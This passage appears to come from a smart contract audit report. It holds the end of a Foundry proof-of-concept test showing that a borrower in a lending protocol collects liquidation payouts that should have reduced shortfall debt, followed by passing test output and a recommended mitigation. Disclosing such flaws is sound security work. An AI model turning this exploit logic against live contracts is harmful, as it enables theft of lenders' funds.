 ```
+        //!! reduce 0 because debt is 0
+        vm.expectEmit(true, false, false, true);
+        emit ReduceDebt(borrower, collateral.addr, 0);
+        vm.expectEmit(true, true, false, true);
+        emit Transfer(address(controller), address(0), 0);
+        //!! borrower get the payouts that should be used to reduce the shortfall debt
+        vm.expectEmit(true, true, false, true);
+        emit Transfer(address(controller), borrower, payouts);
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+        controller.purchaseLiquidationAuctionNFT(auction2, price, purchaser, oracleInfo);
+
+        //!! borrower wins
+        uint256 afterBalance = debtToken.balanceOf(borrower);
+        assertEq(afterBalance - beforeBalance, payouts);
+        assertGt(payouts, 2.4e18);
+    }
+
+    function _addCollaterals() internal {
+        vm.startPrank(borrower);
+        nft.setApprovalForAll(address(controller), true);
+        IPaprController.Collateral[] memory c = new IPaprController.Collateral[](2);
+        c[0] = collateral;
+        c[1] = IPaprController.Collateral({id: collateralId+1, addr: nft});
+        controller.addCollateral(c);
+        vm.stopPrank();
+    }
+
+    function _loanMaxAndSell() internal {
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+        IPaprController.SwapParams memory swapParams = IPaprController.SwapParams({
+            amount: controller.maxDebt(oraclePrice*2) - 4,
+            minOut: 1,
+            sqrtPriceLimitX96: _maxSqrtPriceLimit({sellingPAPR: true}),
+            swapFeeTo: address(0),
+            swapFeeBips: 0
+        });
+        vm.prank(borrower);
+        controller.increaseDebtAndSell(borrower, collateral.addr, swapParams, oracleInfo);
+    }
+}
```

Test output:
```
Running 1 test for test/paprController/PoC.sol:PoC
[PASS] testPoC() (gas: 720941)
Test result: ok. 1 passed; 0 failed; finished in 1.21s
```
### Recommended Mitigation

The debt shortfall should be recorded and accumulated when the debt is burnt directly. Fill the shortfall first in later liquidation.
